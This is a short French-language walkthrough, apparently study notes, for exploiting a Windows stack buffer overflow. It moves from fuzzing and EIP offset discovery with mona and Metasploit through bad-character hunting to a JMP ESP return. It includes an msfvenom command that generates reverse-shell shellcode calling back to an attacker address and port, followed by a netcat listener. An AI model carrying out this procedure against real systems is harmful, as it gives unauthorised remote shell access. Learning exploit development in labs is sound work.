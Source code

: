 > Fuzzer le binaire pour trouver le nombre caractere qui fait planter le programme.

Demarrer le serveur (Running) dans immunity et crée un nouveau workspace:

```sh
!mona config -set workingfolder c:\mona\%p
```

Créer un pattern avec metasploit pour trouver l'offset d'EIP

```sh
msf-pattern_create -l 2400 
# 2400 (qui le resultat du script fuzzing.py)
```

Retrouve l'offset exacte d'EIP au moment du crash

```sh
!mona findmsp -distance 2400
# ou 
msf-pattern_offset -q EIP_ADDRESS
```

Remarrer le serveur (Running) dans immunity et recherche les badchars, on créer un tableau de badchars avec mona

```sh
!mona bytearray -b "\x00"
```

On génère une chaîne de badchars qu'on ajoute en tant que payload dans le script d'exploit ET on l'execute.

On compare les badchars avec l'offset d'ESP au moment du crash pour retourver les badchars

```sh
!mona compare -f C:\mona\<workingfolder>\bytearray.bin -a <ESP offset>
```

On génére un shellcode avec metasploit excluant les badchars

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.128 LPORT=4444 -b "<badchars>" -f py
```

Remarrer le serveur (Running) dans immunity et trouver un offset de jump sur ESP avec mona pour exécuter le shellcode.

```sh
!mona jmp -r esp -cpb "<badchars>"
```

On met à jour l'offset du retn dans le script d'exploit et on ajoute des NOPS (16 c'est pas mal)

On démarre un netcat en local et on exploite :)